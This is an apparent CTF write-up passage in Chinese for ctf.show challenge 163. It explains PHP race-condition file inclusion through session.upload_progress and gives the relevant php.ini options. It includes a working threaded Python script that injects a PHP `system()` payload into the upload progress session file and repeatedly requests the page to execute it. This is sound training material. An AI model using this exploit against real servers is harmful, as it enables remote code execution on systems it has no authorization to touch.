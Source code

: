 ![](https://i-blog.csdnimg.cn/blog_migrate/8f9fab9e705cefd4a68fe457fdec2558.png)

读取flag

##### 163关：条件竞争

参考文章：[利用session.upload_progress进行文件包含和反序列化渗透 -  <br>FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/202819.html "利用session.upload_progress进行文件包含和反序列化渗透 - FreeBuf网络安全行业门户")

如果网站的文件上传的过程是：服务器获取文件–>保存上传临时文件–>重命名移动临时文件  
这样的步骤时，就可以通过不断地对文件进行上传和访问，从而使服务器还未重命名移动临时文件时，我们就利用时间差打开了文件，成功执行其中的恶意代码。

再php.ini中有以下几个选项目：

```
1. session.upload_progress.enabled = on
2. session.upload_progress.cleanup = on
3. session.upload_progress.prefix = "upload_progress_"
4. session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
5. session.use_strict_mode=off
```

这五个开启后，可以达到我们可以控制sessionid这个参数，并且可以创建session文件，我们就可以把恶意代码写入session文件中，在它被删除之前，通过不断发包访问来使session文件被包含。

```
import requests
import threading
session=requests.session()
sess='yu22x'
url1="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/"
url2="http://f275f432-9203-4050-99ad-a185d3b6f466.chall.ctf.show/upload"
data1={
	'PHP_SESSION_UPLOAD_PROGRESS':'<?php system("tac ../f*");?>'
}
file={
	'file':'toxicant'
}
cookies={
	'PHPSESSID': sess
}

def write():
	while True:
		r = session.post(url1,data=data1,files=file,cookies=cookies)
def read():
	while True:
		r = session.get(url2)
		if 'flag' in r.text:
			print(r.text)
			
threads = [threading.Thread(target=write),
       threading.Thread(target=read)]
for t in threads:
	t.start()
```
